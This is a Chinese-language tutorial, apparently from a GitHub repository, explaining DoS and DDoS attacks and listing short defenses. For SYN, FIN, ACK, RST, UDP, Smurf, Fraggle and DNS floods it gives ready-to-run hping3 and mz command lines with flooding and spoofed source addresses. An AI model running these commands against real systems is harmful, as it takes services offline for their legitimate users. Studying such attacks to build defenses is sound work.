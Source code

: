 ## DoS攻击
&#8195;&#8195;DoS是denial of service的简称，即拒绝服务。以DoS为手段，来使得目标瘫痪的攻击称为DoS攻击。不同于其他手段（木马、劫持等），DoS并不窃取、威胁合法用户数据，其主要目的是使目标瘫痪，从而无法给合法用户提供服务。

<p align="center">
<img src="./imgs/ddos.png" alt="drawing" width="300" alt="Dos/DDOS"/>
</p>

&#8195;&#8195;DDOS是destributed denial of service的简称，即使用多个计算机联合，对一个或者多个目标发动DoS攻击，成倍的提高DoS攻击的威力。

&#8195;&#8195;DoS如果按照OSI或者TCP/IP网络架构模型大致可以分为两类：应用层DoS攻击和网络层DoS攻击。

## 网络层DoS攻击
&#8195;&#8195;针对tcp协议，我们可以在其握手、挥手阶段来进行攻击：通过发送无效的SYN/ACK/FIN/RST包来进行DoS攻击。

&#8195;&#8195;比较简单的攻击工具有hping3等，它们可以针对tcp、icamp等协议进行攻击。
```
ubunut: sudo apt install hping3
macos: brew install hping && export PAHT=$PATH:/usr/local/sbin
```

## 攻击工具
### hpinp3
```
hping3 -[S|F] [--flood|-c $num] [-w $num] [--rand-source] -V -p TARGET_PORT TARGET_SITE

-S 表示发送无效SYN包；-F 表示发送无用的FIN包
--flood 表示泛洪发送，即尽可能多地发送，也可以使用 "-c 24234"来指定发送数量
-V 表示verbose
-p 指定攻击端口
--rand-source 使用随机ip来攻击，如果不指定，则
-w tcp winsize
```

### TCP SYN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送SYN包,服务器需要消耗资源来处理，并返回一个SIN/ACK包。
```
hping3 -S --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP FIN泛洪攻击
&#8195;&#8195;如果攻击者向一个没有建立TCP连接的服务器发送FIN包会被丢弃，但是服务器需要消耗资源来处理。
```
hping3 -F --flood --rand-source -V -p TARGET_PORT TARGET_SITE
```

### TCP ACK泛洪攻击
&#8195;&#8195;我们也可以向目标机器发送大量无效的PUSH或者ACK包，来让服务器大量消耗资源，使其无法响应合法的请求：
```
hping3 --flood --rand-source -PA -p TARGET_PORT TARGET_IP
```

### TCP RST攻击
&#8195;&#8195;如果我们捕捉到某个正常用户的源地址，那么我们可以使用伪造的RST包（IP为该用户的IP），来使得这个用户和目标服务器断开TCP链接。
```
hping3 --flood --rand-source -R -p TARGET_PORT TARGET_IP
```

### UDP 泛洪攻击
&#8195;&#8195;针对类似于UDP这些无连接的协议，攻击者可以发送大量伪造源ip地址的小UDP包。
```
hping3 --flood --rand-source --udp -p TARGET_PORT TARGET_IP
```

### TCP SYN/ACK/FIN/RST应对方法
- 在路由器中，当发现过多的SYN、FIN、RST包时，直接丢弃
- 加资源：带宽、cpu等


### DDOS放大型攻击
&#8195;&#8195;攻击者不是直接把通信包发给受害者，发给放大器然后反射个受害者。这种手段利用回复包比请求包大的特点，伪造请求包的源ip地址，将应答包引向被攻击的目标。

<p align="center">
<img src="./imgs/放大攻击.png" alt="drawing" width="300" alt="放大攻击"/>
</p>

&#8195;&#8195;使用这种手段的前提是攻击者和目标之间使用的是无需验证源地址的无连接协议。常见的攻击有Smurf攻击（ICMP）放大、DNS放大攻击、Fraggle攻击（UDP放大）。

#### Smurf攻击
&#8195;&#8195;Smurf攻击通过将回复地址设置成受害者网络的广播地址的ICMP应答请求包，来淹没受害者主机。最终导致该网络的所有主机都对此ICMP应答请求做出回复，导致网络阻塞或者受害者主机无法处理如此大量的回复请求。
```
hping3 --icmp --spoof TARGET_IP BROADCAST_IP
```

#### DNS放大攻击
&#8195;&#8195;对于dns服务而言，其响应包是比请求包大的。因此我们可以冒充目标机器，向dns解析器发送大量的请求，使得目标机器及其所处的网络耗费大量资源来处理dns响应包
。

#### Fraggle 攻击
&#8195;&#8195;Fraggle攻击类似于Smurf攻击，只是使用UDP应答消息，而非ICMP。
```
hping3 --udp --spoof TARGET_IP BROADCAST_IP
```

### 应用层DOS攻击
&#8195;&#8195;我们可以在连接建立之后，向目标机器提交服务请求，消耗服务器计算资源。这种请求在网络层面的表现是正常，但是对于应用而言，由于请求量过大，会造成服务负载过高。

&#8195;&#8195;应用层协议有HPPT,HTTPS,DNS,SMPT,FTP,VOIP等。在网盟系统里面，我们可以尝试发起大量的点击、回调请求，而不接受任何的响应。

应对方法：
- 增加验证机制，验证不通过则直接拒绝提供服务
- 限制每个用户的请求次数、频率

### DNS泛洪攻击
&#8195;&#8195;不同于DNS放大攻击，DNS泛洪攻击的目标就是DNS服务器。攻击者可以向目标DNS服务器发送大量的域名解析请求（这些域名可以随机生成）。被攻击的DNS服务器在解析域名的时候，会先查找本地缓存，如果查找不到，就会向上层DNS服务器递归查询域名信息（递归查询或者迭代查询）。这种方式有可能造成整个DNS解析链路崩溃。

&#8195;&#8195;常见的工具有netstress和mz（Mausezahn）
```
sudo apt intall mz

mz -A rand -B TARGET_DNS_SERVER -t dns "q=pentest.blog" -c 10000000

-A 源ip地址
-B 目标DNS服务器
-t package类型，可以指定为dns解析请求包
-c 请求次数
```

应对方法：
- 仅接受来自某些子网的查询
- 仅接受某些域名的解析

### 慢速DOS攻击
&#8195;&#8195;我们在和目标机器建立一个content-length很大的连接（表示我们要发送一个很大的content过去），然后以低速如每秒一个字节发送数据，并维持连接不断开。只要连接数量足够大，就能够将服务器上的连接池耗尽，从而使得目标机器无法提供正常服务。

## 防范方法
上面也写了一些方法，一下是一些总结和补充：
- 如果请求有特征，如IP、UA等，那么可以很对具备这些特征的请求进行屏蔽，可以使用专用的硬件、防火墙、nginx/apache过滤器等
```
location / {
  deny $ip;
}
```
- 大部分ddos攻击并不具备明显的特征。一个比较简单的应对方法就是对资源进行自动扩容，大部分云服务商都具备这类功能。
- 使用CDN。尽量将静态资源放在CDN服务器上，既可以降低自身服务器带宽，也可以提升用户加载速度。
- 使用高防ip。高防ip一般具备流量缓冲、清洗功能。